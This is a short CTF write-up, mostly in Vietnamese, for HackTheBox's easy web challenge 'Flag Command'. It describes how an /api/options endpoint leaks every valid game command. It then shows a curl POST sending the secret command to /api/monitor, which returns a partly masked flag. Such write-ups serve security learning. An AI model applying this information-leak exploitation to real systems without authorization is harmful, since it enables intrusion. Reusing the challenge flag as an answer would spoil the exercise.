




# 🏴‍☠️ CTF Writeup – [Flag Command]

## 📌 Thông tin chung
- **Challenge:** Flag Command
- **CTF Event:** HackTheBox Challenges
- **Category:** Web 
- **Difficulty:** Easy 
 

---

## 📜 Mô tả đề bài
> Embark on the "Dimensional Escape Quest" where you wake up in a mysterious forest maze that's not quite of this world. Navigate singing squirrels, mischievous nymphs, and grumpy wizards in a whimsical labyrinth that may lead to otherworldly surprises. Will you conquer the enchanted maze or find yourself lost in a different dimension of magical challenges? The journey unfolds in this mystical escape!
- File/URL cung cấp: [Tại đây](https://app.hackthebox.com/challenges/Flag%2520Command)  
- Thông tin thử thách:  



---

## 🔎 Recon / Ý tưởng ban đầu
- Quan sát ban đầu: Đây là thử thách blackbox, khi truy cập trang không có quá nhiều thông tin hữu ích, đây là các request thu thâp được  Điều chú ý là endpoint /api/options

- Các thử nghiệm đầu tiên: 
    -  Đọc file js để xem cách client-side gửi request. Trong file main.js có nội dung như sau:
    
- Kết quả/ghi chú: Tóm lại có thể hiểu trang web là một trò chơi sẽ tương tác với phía server và phải chiến thằng bằng cách tìm comment chính xác để gửi về server    

---

## 🧩 Phân tích
- Giải thích lỗ hổng : Với endpoint /api/options đã cung cấp toàn bộ giá trị `allPossibleCommands`.
- Tại sao có thể khai thác: Đây là một endpoint mà trang web tự động gửi khi truy cập vào trang, từ đây vô tình gây lộ thông tin.  

---

## 🚀 Khai thác / Giải pháp
- Các bước exploit: Chuẩn bị request dạng JSON gửi đến endpoint `/api/monitor` với nội dung như sau:
```json
{"command":"Blip-blop, in a pickle with a hiccup! Shmiggity-shmack"}
```
- Payload
```bash
curl "http://94.237.48.12:54056/api/monitor" -X POST -H "Content-Type: application/json" -d '{"command":"Blip-blop, in a pickle with a hiccup! Shmiggity-shmack"}'
```
- Kết quả thu được:
```
{
  "message": "HTB{D3v3l0p3r_t00l5_4r3_b35t__xxxxxxxxxxxxxxx}"
}
